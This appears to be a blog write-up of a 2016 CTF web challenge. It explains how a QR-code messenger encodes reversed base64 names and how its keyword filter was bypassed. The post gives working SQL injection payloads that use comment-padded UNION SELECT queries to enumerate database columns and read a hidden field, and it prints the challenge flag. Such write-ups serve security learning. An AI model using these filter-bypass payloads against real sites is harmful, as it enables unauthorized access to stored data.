 ```yaml
---
title: '[H4CK1T 2016] QRb00k – Russia Writeup'
author: Megabeets
type: post
date: 2016-10-03T00:35:37+00:00
url: /h4ck1t-2016-qrb00k-russia-writeup/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

<img src="../uploads/h4ck1t_russia_1.png" /> 

We got a QR code which is the key to read our message:

<img src="../uploads/h4ck1t_russia_2-279x300.png" /> 

Now let&#8217;s read the message using the QR code:

<img src="../uploads/h4ck1t_russia_3-271x300.png" /> 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

<img src="../uploads/h4ck1t_russia_4.png" /> 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

<pre class="lang:python decode:true ">&gt;&gt;&gt; "==QehRXS"[::-1].decode('base64')
'Itay'</pre>

Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

<img src="../uploads/h4ck1t_russia_5.png" /> 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

<pre class="lang:mysql decode:true">'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets</pre>

<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<img src="../uploads/h4ck1t_russia_6-1024x478.png" /> 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<pre class="lang:mysql decode:true">'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets</pre>

<img src="../uploads/h4ck1t_russia_7-1024x679.png" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

<pre class="lang:mysql decode:true ">'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets</pre>

<img src="../uploads/h4ck1t_russia_8-1024x744.png" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/